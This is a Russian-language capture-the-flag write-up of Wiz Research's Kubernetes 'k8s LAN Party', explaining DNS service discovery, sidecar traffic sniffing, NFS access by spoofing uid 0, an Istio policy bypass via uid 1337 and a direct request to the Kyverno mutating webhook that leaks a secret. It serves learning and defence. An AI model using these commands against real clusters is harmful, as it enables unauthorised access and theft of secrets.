Кто в контейнере - привет, остальным соболезную.
Сегодня посмотрим на [k8s LAN Party](https://www.k8slanparty.com/) - небольшая CTF от Wiz Research, посвященная Kubernetes.

Платформа представляет собой набор тасков, которые помогут нам разобраться в некоторых базовых концепциях куба, а также познакомят нас с полезными интересными классными механизмами:

- Recon (DNS scanning (https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html#kubernetes-dns-to-the-partial-rescue))
- Finding Neighbours (sidecars (https://kubernetes.io/docs/concepts/workloads/pods/sidecar-containers/))
- Data Leakage
- Bypassing Boundaries
- Lateral Movement (administrative services (https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request))


Консоль для взаимодействия со средой находится в самом вебе, что очень удобно.

## DNSing with the stars
**Описание:** 
*You have shell access to compromised a Kubernetes pod at the bottom of this page, and your* *next objective is to compromise other internal services further.*
*As a warmup, utilize [DNS scanning](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html#kubernetes-dns-to-the-partial-rescue) to uncover hidden internal services and obtain the flag. We have "loaded your machine with dnscan to ease this process for further challenges.*


Итак, мы находимся внутри пода и перед нами стоит задача найти другие скрытые сервисы.

В kubernetes имеется [внутренний DNS](https://kubernetes.io/docs/concepts/services-networking/dns-pod-service/), который поможет нам в Service Discovery.

В описании уже сказано, что для этого мы можем использовать утилиту [dnscan](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e), которую разработчики заботливо положили в наш контейнер. Данная утилита пройдется по всей подсети и запросит у внутреннего DNS PTR записи, выполняя reverse lookup.

Но как нам узнать внутреннюю подсеть?

1. Мы можем узнать адрес KubeAPI, к которому идут все запросы, через env

2. Заглянуть в /etc/resolv.conf


Далее запустим dnscan для обнаружения сервиса 

`dnscan -subnet 10.100.0.0/16`

курлим найденный сервис и забираем флаг.



## Hello?
**Описание:**
Sometimes, it seems we are the only ones around, but we should always be on guard against invisible [sidecars](https://kubernetes.io/docs/concepts/workloads/pods/sidecar-containers/) reporting sensitive secrets.

Из описания понятно, что где-то рядом с нами притаился sidecar контейнер.

#### Да кто такой этот ваш...

Если вкратце, то сайдкар контейнеры нужны для того, чтобы мы могли расширить функционал нашего приложения, не внося в него изменений. Они находятся в одном поде с основным сервисом и общаются с ним посредством заложенного разработчиком механизма (вольюмы, http запросы etc.). Посмотреть пример можно [тут](https://habr.com/ru/companies/nixys/articles/559368/).

Наша задача услышать, что же наш сосед пытается нам донести. 

Для начала проведем днс сканирование с помощью уже знакомого нам dnscan.

`dnscan -subnet 10.100.0.0/16`

Мы обнаружили некий `reporting service`. Вероятно это и есть наш сайдкар.


Если мы попытаемся просто курлануть его, то, очевидно, ничего не выйдет.

Давайте просто попробуем прослушать весь сетевой трафик.

Замечаем, что в контейнере уже заранее лежит tcpdump, и понимаем, что мы на верном пути :)
Запустим его с флагом `-A` для чтения пакетов.

`tcpdump -A`

И мы успешно замечаем флаг в http пакете, который нам отправил наш соседний контейнер.




## Exposed File Share
**Описание:**
*The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based 🤦‍️.*

Видим file share - смотрим, что примонтировано в наш контейнер.


Находим смонтированную amazon EFS шару по пути `/efs`, а в след за ней и флаг, который не можем прочитать.


Просмотрев первую подсказку, мы узнаем про некие инструменты nfs-ls, nfs-cat и находим [документацию](https://github.com/sahlberg/libnfs).


Пробуем составить команду, с помощью которой мы сможем взаимодействовать с хранилищем.

```
player@wiz-k8s-lan-party:~$ nfs-ls "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//?version=4"

----------  1     1     1           73 flag.txt
```

Отлично, мы смогли вывести его содержимое. Однако, если мы попытаемся прочитать флаг, то получим ошибку.

```
player@wiz-k8s-lan-party:~$ nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//?version=4"

Failed to open file /: open call failed with "NFS4: (path /) failed with NFS4ERR_INVAL(-22)"
Failed to open nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//?version=4
```

Нагуглив [доку от aws](https://docs.aws.amazon.com/en_en/efs/latest/ug/accessing-fs-nfs-permissions.html), мы можем понять, что нам не хватает UID/GID

> *After creating a file system, by default only the root user (UID 0) has read, write, and execute permissions.*

Следуя все тому же ману из подсказки, составляем новую нагрузку и получаем флаг

`nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0"`


## The Beauty and The Ist
**Описание:**
*Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.*

**Policy:**
```
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```


### ist.. что?
Как сказано на официальном ресурсе, istio расширяет дефолтные возможности кубера, позволяя более гибко настроить возможности для сетевой инфраструктуры приложений, таких как балансировка нагрузки, обнаружение сервисов, **контроль доступа**, шифрование, мониторинг и трассировка.

Более подробно про этот Service Mesh можно прочитать в [этой статье](https://habr.com/ru/companies/oleg-bunin/articles/726958/)

Нам же, исходя из определения и представленной политики достаточно понимать, что istio ограничивает нам доступ из нашего неймспейса до нужного сервиса, в рамках этого задания.

Просканируем сеть старым способом, найдем этот сервис и попробуем к нему обратиться


Получаем ожидаемую ошибку из-за настроенной политики.

### Как обходить?

Немного погуглив, мы находим парочку статьей, рассказывающих нам про интересный байпасс
[click1](https://pulsesecurity.co.nz/advisories/istio-egress-bypass?source=post_page-----c773190e9246--------------------------------)
[click2](https://github.com/DSecurity/istio-security-restrictions-bypass?tab=readme-ov-file#bypass-istio-sidecar)

Это означает, что любой пользователь с uid 1337 может обойти перенаправления траффика на прокси и слать его напрямую.

Мы могли бы сами создать такого пользователя `useradd -u 1337 kacker`, но прочитав /etc/passwd, мы видим, что подобный уже присутствует в системе.


Логинимся за него `su istio` и пробуем снова курлить наш сервис.



## Who will guard the guardians?
**Описание:**
*Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.*

**Policy:**
```
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

Заключительный и самый сложный, на мой взгляд, таск так же знакомит нас с интересным механизмом - Kyverno.

**Kyverno** - механизм для создания политик, с помощью которых можно проверять, изменять и генерировать ресурсы Kubernetes, обеспечивая точный контроль над их управлением и поведением.

А приведенная выше политика гласит, что каждый pod, созданный в неймспейсе sensitive-ns, будет иметь у себя енву с флагом.

Отсюда мы понимаем, что наша цель - создать под в данном namespace и получить заветный флаг.

### Приступим

Попробуем пойти по легкому пути и посмотрим, имеются ли нужные права у нашего сервис аккаунта для создания нового пода.

`kubectl auth can-i create --list`

Конечно же нет


<br></br>
Как всегда, просканим сеть.

Самым интересным сервисом для нас будет `kyverno-svc.kyverno.svc.cluster.local`, так как остальные, вероятно, отвечают за служебный стафф.

Для решения нужно разобраться, как работают контроллеры допуска.


Когда запрос делается на API сервер Kubernetes, он проходит через несколько этапов, называемых Admission Controllers. После api он переходит к интересующему нас этапу `Mutating admission`, а именно редиректится на веб-хук (в нашем случае это Kyverno) без аутентификации.
Если модуль соответствует политике `apply-flag-to-env`, то он будет "мутировать".



Как мы выяснили, отправить запрос на создание нужного нам ресурса легитимным способом не представляется возможным. 

Поэтому наша цель -  отправить запрос напрямую к Kyverno в обход аутентификации.

Конечно же, мы смотрим подсказки, чтобы ненароком не стать психично хворим, и видим, что нам советуют инструмент [kube-review](https://github.com/anderseknert/kube-review)

Данный инструмент поможет нам преобразовать описанный нами куб ресурс в запрос Kubernetes AdmissionReview, который отправится сразу к Kyverno.

Опишем pod, который мы хотим создать. Для выполнения мутации, он должен быть создан в неймспейсе `sensitive-ns`

```
apiVersion: v1
kind: Pod
metadata:
  name: bypass
  namespace: sensitive-ns
spec:
  containers:
  - name: alpine
    image: alpine:latest
```

Так как вставлять ямлы-джсоны в веб консоль немного проблематично, то мы скачаем `kube-review` и создадим полезную нагрузку локально.

`./kube-review create pod.yml`

На выходе получаем json, который и будет являться нашим admission request'ом

```
{
    "kind": "AdmissionReview",
    "apiVersion": "admission.k8s.io/v1",
    "request": {
        "uid": "d2c2fee7-51ed-4da3-8b0c-3ace0a93cd70",
        "kind": {
            "group": "",
            "version": "v1",
            "kind": "Pod"
        },
        "resource": {
            "group": "",
            "version": "v1",
            "resource": "pods"
        },
        "requestKind": {
            "group": "",
            "version": "v1",
            "kind": "Pod"
        },
        "requestResource": {
            "group": "",
            "version": "v1",
            "resource": "pods"
        },
        "name": "bypass",
        "namespace": "sensitive-ns",
        "operation": "CREATE",
        "userInfo": {
            "username": "kube-review",
            "uid": "21274f49-9860-44e4-9d6f-26289d93088b"
        },
        "object": {
            "kind": "Pod",
            "apiVersion": "v1",
            "metadata": {
                "name": "bypass",
                "namespace": "sensitive-ns",
                "creationTimestamp": null
            },
            "spec": {
                "containers": [
                    {
                        "name": "alpine",
                        "image": "alpine:latest",
                        "resources": {}
                    }
                ]
            },
            "status": {}
        },
        "oldObject": null,
        "dryRun": true,
        "options": {
            "kind": "CreateOptions",
            "apiVersion": "meta.k8s.io/v1"
        }
    }
}
```

Теперь нам нужно доставить нагруз в контейнер. Просто захостите его где-либо и wget'ните, я воспользуюсь своим сервачком с белым ипом.

После доставки нагрузки - деплоим ее

`curl -X POST -H "Content-Type: application/json" --data @payload.json https://kyverno-svc.kyverno/mutate -k`

Получаем следующий ответ:

```
{
  "kind": "AdmissionReview",
  "apiVersion": "admission.k8s.io/v1",
  "request": {
    "uid": "d2c2fee7-51ed-4da3-8b0c-3ace0a93cd70",
    "kind": {
      "group": "",
      "version": "v1",
      "kind": "Pod"
    },
    "resource": {
      "group": "",
      "version": "v1",
      "resource": "pods"
    },
    "requestKind": {
      "group": "",
      "version": "v1",
      "kind": "Pod"
    },
    "requestResource": {
      "group": "",
      "version": "v1",
      "resource": "pods"
    },
    "name": "bypass",
    "namespace": "sensitive-ns",
    "operation": "CREATE",
    "userInfo": {
      "username": "kube-review",
      "uid": "21274f49-9860-44e4-9d6f-26289d93088b"
    },
    "object": {
      "kind": "Pod",
      "apiVersion": "v1",
      "metadata": {
        "name": "bypass",
        "namespace": "sensitive-ns",
        "creationTimestamp": null
      },
      "spec": {
        "containers": [
          {
            "name": "alpine",
            "image": "alpine:latest",
            "resources": {}
          }
        ]
      },
      "status": {}
    },
    "oldObject": null,
    "dryRun": true,
    "options": {
      "kind": "CreateOptions",
      "apiVersion": "meta.k8s.io/v1"
    }
  },
  "response": {
    "uid": "d2c2fee7-51ed-4da3-8b0c-3ace0a93cd70",
    "allowed": true,
    "patch": "W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvY29udGFpbmVycy8wL2VudiIsInZhbHVlIjpbeyJuYW1lIjoiRkxBRyIsInZhbHVlIjoid2l6X2s4c19sYW5fcGFydHl7eW91LWFyZS1rOHMtbmV0LW1hc3Rlci13aXRoLWdyZWF0LXBvd2VyLXRvLW11dGF0ZS15b3VyLXdheS10by12aWN0b3J5fSJ9XX0sIHsicGF0aCI6Ii9tZXRhZGF0YS9hbm5vdGF0aW9ucyIsIm9wIjoiYWRkIiwidmFsdWUiOnsicG9saWNpZXMua3l2ZXJuby5pby9sYXN0LWFwcGxpZWQtcGF0Y2hlcyI6ImluamVjdC1lbnYtdmFycy5hcHBseS1mbGFnLXRvLWVudi5reXZlcm5vLmlvOiBhZGRlZCAvc3BlYy9jb250YWluZXJzLzAvZW52XG4ifX1d",
    "patchType": "JSONPatch"
  }
}
```

Из всего этого нас интересует поле `patch`. Берем содержимое, декодим из бейза и получаем

```
[
  {
    "op": "add",
    "path": "/spec/containers/0/env",
    "value": [
      {
        "name": "FLAG",
        "value": "wiz_k8s_lan_party{you-are-k8s-net-master-with-great-power-to-mutate-your-way-to-victory}"
      }
    ]
  },
  {
    "path": "/metadata/annotations",
    "op": "add",
    "value": {
      "policies.kyverno.io/last-applied-patches": "inject-env-vars.apply-flag-to-env.kyverno.io: added /spec/containers/0/env\n"
    }
  }
]
```
ПОБЕДА ГОЛ

## Заключение
По завершении такой интересной стфки мы познакомились как с базовыми, так и не очень механизмами kubernetes. 

Спасибо за прочтение, подписывайтесь на [@mireactf](https://t.me/mireactf), ставьте лайки, прожимайте колокольчик